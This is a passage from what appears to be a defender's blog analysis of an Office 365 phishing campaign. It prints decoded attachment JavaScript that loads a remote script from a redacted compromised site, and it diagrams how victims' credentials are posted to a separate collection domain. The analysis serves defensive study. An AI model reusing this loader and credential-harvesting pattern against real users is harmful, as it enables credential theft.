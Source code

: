 In order to overcome this, we can take the Unicode output from the first level of decoding and run this through the same script again. Having completed the second round of decoding, this results in the JavaScript shown below. 

```javascript
<script>
	var re = atob("Y3JlZF9oYXJ2ZXN0QGFkdmVyc2FyeS5jb20=");
	var error = atob("dXNlcl9lbWFpbEBjb21wYW55LmNvbQ==")
</script>
<script src="https://www.<domain_redacted>.eu/send.js"></script>
```
<sup>*Please note: This post is not designed to be a threat intelligence report, therefore the actual domain and Base64 encoded strings have been redacted and replaced with examples.*</sup>

So, what does this mean? Essentially the attachment in the email appears to just set two variables called `re` and `error` and makes a request for a further script from the website that is listed in the second `script` tag. The interesting thing is that when we run the `atob` function on the Base64 strings to decode them, we notice that these are both email addresses; one that appears to be external to the victim's organisation (we will come back to this later) and another which is the email address of the victim. 

```
var re = cred_harvest@adversary.com
var error = user_email@company.com
```

### The Network Requests
This section shows the analysis conducted on the web requests that occur from the point where the user opens the attachment, to the user giving away their credentials. Dynamic analysis was used to understand the requests that were used as part of the campaign and this has been illustrated in the sequence diagram below.

<div class="mermaid mermaidContainer">
	sequenceDiagram
	User->>+User's Browser: Open HTM attach.
	User's Browser->>+Compromised Site: GET /send.js
	Compromised Site->>-User's Browser: Return send.js
	User's Browser->>+Compromised Site: GET /page.js
	Compromised Site->>-User's Browser: Return page.js
	User's Browser->>+Microsoft APIs: Request bespoke branding 
	Microsoft APIs->>-User's Browser: Returns bespoke branding
	User's Browser->>-User: O365 Phishing Site
	User->>+User's Browser: Enters Credentials
	User's Browser->>+Phishing Site: POST credentials
</div>

### Posting Credentials
The last thing to look at as part of this analysis is where the credentials are sent to (via a HTTP POST request). Analysis shows that this is actually to a different domain to the one where the JavaScript files were hosted. It is likely that the adversary uses a different domain for the credential collection in an attempt to avoid detection. By doing this, the domain is less likely to be identified and thus be blocked by corporate security controls. As a result, the adversary does not have to change the domain where this is hosted as frequently. Looking at this through the lens of an adversary, this makes complete sense; the JavaScript files would be easy deploy and are most likely to be identified by Defenders. Whereas the server that receives receipt of the credentials, hosting the main components of the phishing kit, is likely to take more time and effort to deploy. If this is deployed to a separate domain, it is less likely to be detected (at least until after credentials have been harvested). 
